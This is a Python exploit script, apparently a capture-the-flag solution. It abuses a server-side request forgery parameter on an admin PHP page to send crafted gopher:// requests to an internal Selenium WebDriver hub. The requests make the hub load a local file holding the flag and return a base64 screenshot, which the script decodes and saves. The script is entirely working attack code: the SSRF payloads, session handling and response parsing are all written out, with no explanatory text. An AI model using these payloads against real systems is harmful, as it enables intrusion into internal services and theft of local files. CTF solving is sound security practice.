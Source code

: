 ```python

def load_scripts(id):
    payload = read_file('2')
    payload = payload.replace('{session_id}', id)
    payload = encode(payload)
    print('Payload2 start...\n\n')
    print(payload)
    print('Payload2 end...\n\n')
    session = requests.Session()
    paramsPost = {
        "You_cann0t_guu3s_1t_1s2xs": "gopher://172.20.0.2:4444/_POST%20/wd/hub/session/{session_id}/url%20HTTP/1.1%0D%0AHost%3A%20172.20.0.2%3A4444%0D%0AConnection%3A%20close%0D%0AAccept%3A%20application/json%3B%20charset%3Dutf-8%0D%0AUser-Agent%3A%20Mozilla/5.0%20%28Android%209.0%3B%20Mobile%3B%20rv%3A61.0%29%20Gecko/61.0%20Firefox/61.0%0D%0AAccept-Language%3A%20zh-CN%2Czh%3Bq%3D0.8%2Cen-US%3Bq%3D0.5%2Cen%3Bq%3D0.3%0D%0ADNT%3A%201%0D%0AReferer%3A%20http%3A//172.20.0.2%3A4444/wd/hub/static/resource/hub.html%0D%0AContent-Type%3A%20text/plain%3Bcharset%3DUTF-8%0D%0AContent-Length%3A%20142%0D%0A%0D%0A%7B%22url%22%3A%22file%3A///Th3_MosT_S3cR3T_fLag%3Fwdsid%3D{session_id}%26wdurl%3Dhttp%253A%252F%252F172.20.0.2%253A4444%252Fwd%252Fhub%22%7D000000000000000000000".format(session_id=id)}
    headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0",
               "Connection": "close", "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "DNT": "1",
               "Content-Type": "application/x-www-form-urlencoded"}
    response = session.post(base_url+"/admin/m0st_Secret.php", data=paramsPost,
                            headers=headers)
    assert response.status_code==200
    print("Status code: %i" % response.status_code)
    print("Response body: %s" % response.content)


def get_screenshot(id):
    payload = read_file('3')
    payload = payload.replace('{session_id}', id)
    payload = encode(payload)
    print('Payload3 start...\n\n')
    print(payload)
    print('Payload3 end...\n\n')
    session = requests.Session()
    paramsPost = {
        "You_cann0t_guu3s_1t_1s2xs": "gopher://172.20.0.2:4444/_GET%20/wd/hub/session/{}/screenshot%20HTTP/1.1%0D%0AHost%3A%20172.20.0.2%3A4444%0D%0AConnection%3A%20close%0D%0AAccept%3A%20application/json%3B%20charset%3Dutf-8%0D%0AUser-Agent%3A%20Mozilla/5.0%20%28Android%209.0%3B%20Mobile%3B%20rv%3A61.0%29%20Gecko/61.0%20Firefox/61.0%0D%0AAccept-Language%3A%20zh-CN%2Czh%3Bq%3D0.8%2Cen-US%3Bq%3D0.5%2Cen%3Bq%3D0.3%0D%0ADNT%3A%201%0D%0AReferer%3A%20http%3A//172.20.0.2%3A4444/wd/hub/static/resource/hub.html%0D%0A%0D%0A".format(id)}
    headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1",
               "User-Agent": "Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0",
               "Connection": "close", "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "DNT": "1",
               "Content-Type": "application/x-www-form-urlencoded"}
    cookies = {"PHPSESSID": "as10gmvdfn6k2fu7i40e76qeq2"}
    response = session.post(base_url+"/admin/m0st_Secret.php", data=paramsPost,
                            headers=headers, cookies=cookies)
    assert response.status_code == 200
    print(response.content)
    results = response.content.split('Server: Jetty(9.4.z-SNAPSHOT)')[1].strip()
    data = json.loads(results)
    png_data = base64.b64decode(data['value'])
    with open(BASE_DIR + '/results.png', 'w') as f:
        f.write(png_data)
    return data
```